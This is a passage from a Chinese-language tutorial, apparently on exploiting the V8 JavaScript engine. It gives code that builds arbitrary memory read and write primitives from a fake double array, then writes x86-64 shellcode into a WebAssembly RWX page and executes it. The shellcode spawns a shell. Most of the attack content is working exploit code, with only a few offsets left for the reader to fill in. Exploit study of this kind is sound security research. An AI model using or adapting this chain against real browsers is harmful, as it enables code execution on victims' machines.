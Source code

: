 这两个函数的关键思想是类型字段控制第一个元素单元格中的内容。如果类型是 double，则单元格存储一个 double 数。如果类型是 object，那么单元格存储一个对象指针。如果它是一个对象指针，我们不能得到指针值。我们能得到的是对象本身而不是指针值。这就是为什么我们需要将类型改为 double。这类似于 FakeObjFrom。

# 5.5 任意读取和写入

```
A:var fake_double_arr_container = [
    double_arr_type, // Type Field
    double_arr_type, // Placeholder, Not Important
    double_arr_type, // Element Area Pointer, To Be Changed
    i2f(0x10, 0),    // Element Area's Length
];
B:var container_addr = GetAddrOf(fake_double_arr_container);
C:var fake_double_arr_addr = iadd(container_addr, ?); 
D:var fake_double_arr = FakeObjFrom(fake_double_arr_addr);
E:function Read64(address) {
    fake_double_arr_container[2] = iadd(address, -0x10);
    return fake_double_arr[0];
}
F:function Write64(address, value) {
    fake_double_arr_container[2] = iadd(address, -0x10);
    fake_double_arr[0] = value;
}
```

在 A 行，我们将一个双精度数组定义为一个容器。该容器包含一个伪双数组——fake _ double _ arr，它是根据双数组的结构构造的。我们能够将 fake_double_arr 的元素区域指针更改为任何地址。这就是我们实现任意读写的方式。这也是我们不直接定义 double 数组的原因。直接定义不允许我们改变它的元素区域指针。

在 B 行，我们得到了容器的地址。在 C 行，我们通过向 container_addr 添加一个偏移量来计算 fake_double_arr 的地址。你需要用真实的偏移量来代替问号。它可能会在您的机器上发生变化。对我来说，是 0x30。可以用 v8 原生函数查出来:%DebugPrint，%SystemBreak。在 D 行，我们最终让地址被识别为一个对象指针。所以我们有了我们的假双数组。

在 E 行，我们定义了一个 Read64 函数。首先，我们将它的元素区域指针设置为我们感兴趣的地址。第二，我们读取并返回它的值。元件区域具有结构。0x10 是结构的标头大小。Write64 类似。

# 5.6 RWX 页面和外壳代码注入

```
1   var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,
    128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,
    1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,
    128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,
    0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
2   var wasmModule = new WebAssembly.Module(wasmCode);
3   var wasmInstance = new WebAssembly.Instance(wasmModule, {});
4   var f = wasmInstance.exports.main;
5   var wasm_instance_addr = GetAddrOf(wasmInstance);
6   var rwx_page_addr = Read64(iadd(wasm_instance_addr, ?));
7   var shellcode = [
        i2f(0x2fbb4852, 0x99583b6a),
        i2f(0x5368732f, 0x6e69622f),
        i2f(0x050f5e54, 0x57525f54)
    ];
8   var data_buf = new ArrayBuffer(24);
9   var data_view = new DataView(data_buf);
10  var buf_backing_store_addr = iadd(GetAddrOf(data_buf), 0x20);
11  Write64(buf_backing_store_addr, rwx_page_addr);
12  data_view.setFloat64(0, shellcode[0], true);
13  data_view.setFloat64(8, shellcode[1], true);
14  data_view.setFloat64(16, shellcode[2], true);
15  f();
```
